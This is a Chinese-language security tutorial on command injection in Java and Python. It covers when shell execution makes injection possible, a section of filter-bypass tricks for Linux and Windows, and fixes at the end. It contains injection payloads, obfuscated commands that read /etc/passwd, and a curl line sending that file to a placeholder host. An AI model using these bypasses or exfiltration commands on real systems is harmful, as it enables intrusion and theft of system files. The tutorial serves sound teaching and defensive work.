- [命令注入](#命令注入)
  - [JAVA 中的命令注入](#java-中的命令注入)
  - [Python中的命令注入](#python中的命令注入)
    - [os.system](#ossystem)
    - [subprocess](#subprocess)
  - [Bypass](#bypass)
    - [Linux](#linux)
    - [通配符](#通配符)
    - [字符串拼接](#字符串拼接)
    - [\\ (回车)](#-回车)
    - [curl -d](#curl--d)
    - [反引号](#反引号)
    - [大括号](#大括号)
    - [Windows](#windows)
    - [特殊符号](#特殊符号)
    - [set变量](#set变量)
    - [切割字符串](#切割字符串)
  - [修复方案](#修复方案)
    - [过滤敏感字符](#过滤敏感字符)
    - [正确使用shell环境执行程序](#正确使用shell环境执行程序)

# 命令注入
## JAVA 中的命令注入
java常见的执行系统命令的方式主要是Runtime.exec或者直接new ProcessBuilder,Runtime.exec最终还是通过new ProcessBuilder#start来启动程序，因为在java中执行系统命令并不会自动创建shell，而是直接执行对应的可执行程序，所以代码中是否创建了shell决定了是否存在命令注入，因为我们用于命令注入的反义号（``）,||,&&等符号是在shell环境中才会被解析的，如果不在shell环境中这些符号也只是普通的字符串。  

其中字符串数组传参和字符串传参的方式类似，如果是字符串的方式会多一个切割的步骤分成字符串数组的形式,其中分割字符串的分隔符默认是`\t\n\r\f`.  。
  
最后都是创建ProcessBuilder对象传入字符数组作为命令参数。
  
最后在ProcessBuilder中要执行的命令以List列表的形式进行存储。
  
然后创建ProcessImpl对象来执行List中的命令，其中还包括了一些执行目录的赋值，

可以看到在ProcessImpl中是取命令数组中的第一个值作为可执行文件路径的，最终通过一系列格式化最终得到我们输入的命令字符串。
  
然后将该字符串调用create方法使用native C语言才真正创建该程序进行执行

使用的也是Win32接口CreateProcess方法，而通过该方法创建的程序是没有Shell执行环境的，即不解析常见的系统命令操作符号。

* 没有创建shell的情况,已经固定了第一个执行程序为ping。
  
当传入`127.0.0.1&calc.exe`时。
  
因为ping命令并不解析`&`符号也不支持该参数,所有可以看到`127.0.0.1&calc.exe`会当作一个完整的参数传入，导致命令注入失败，但这种情况可能存在参数注入的情况,比如该执行程序存在其它可以利用的恶意参数值，如ping命令支持-m 参数，其中可以执行任意命令（如`ping 127.0.0.1 -m evilcmd`）。
当传入`127.0.0.1 &calc.exe`时。

`&calc.exe`被当作一个完整的参数，无法被Ping解析，导致报错。

* 创建shell的情况
  
这种情况下由于第一个执行程序是一个shell程序，第一个参数后面的字符串挨个当作参数传入，所以我们的命令注入字符可以被shell程序成功解析，导致命令注入。
当传入`127.0.0.1&calc.exe`时。
  
  
由于cmd.exe成功解析&符号，所以该命令字符串`cmd.exe /c ping -n 4 127.0.0.1&calc.exe`在执行时，shell程序`cmd.exe`会将其解析为`ping -n 4 127.0.0.1`和`calc.exe`两条命令执行。
* 字符串完全可控

这种情况下我们可以直接执行任意程序，也是存在命令注入。
## Python中的命令注入
在Python中主要有最简单的os.system，或者subprocess下的Popen或者run方法来执行命令。
### os.system
os.system默认是使用Shell环境创建执行程序的，所以如果执行命令是被拼接的那么则存在命令注入。
```python
import os
ip = '127.0.0.1&calc.exe'
cmd = "ping -n 4 "+ip
os.system(cmd)
```
calc.exe会被成功执行
### subprocess
subprocess默认情况下不使用shell环境执行程序，所以无法进行命令注入。
```python
import subprocess

ip = '127.0.0.1&calc.exe'
cmd = "ping -n 4 "+ip
result = subprocess.Popen(cmd, text=True)
print(result.stdout)
```
  
但也可以手动设置是否创建Shell环境，如果shell=True那么依然存在命令注入。
```python
import subprocess

ip = '127.0.0.1&calc.exe'
cmd = "ping -n 4 "+ip
result = subprocess.Popen(cmd, shell=True,text=True)
print(result.stdout)
```

## Bypass
### Linux
区别大小写
### 通配符
`/???/c?t /?t?/p??swd` -> `cat /etc/passwd`
### 字符串拼接
1. python,java: + 
2. php, perl: .
3. 
```
a=who
b=ami
ab
```
### \ (回车)
1. `c\a\t /etc/passwd`
2. `c\ 回车 at /etc/passwd
### curl -d
curl -d 参数能够读取本地文件  
`curl -d @/etc/passwd x.x.x.x:8080`
### 反引号
```
``内的字符会被当成命令执行
```
### 大括号
{}代替空格  
`{ls,-alt}`
### Windows
不区分大小写
### 特殊符号
这些符号不会影响命令执行,
1. "
2. ^ 
3. ()
```
whoami //正常执行
w"h"o"a"m"i //正常执行
w"h"o"a"m"i" //正常执行
wh"“oami //正常执行
wh”“o^am"i //正常执行
((((Whoam”"i)))) //正常执行
```
### set变量
%%之间的变量会引用其值
```
set a=who
set b=ami
%a%%b%
```
### 切割字符串
截取字符串:
%a:~0,6%,取变量a的0到6的值
## 修复方案
### 过滤敏感字符
过滤命令注入常见字符
```
``
||
&&
;
```
### 正确使用shell环境执行程序
非必要情况下执行命令时不启用Shell环境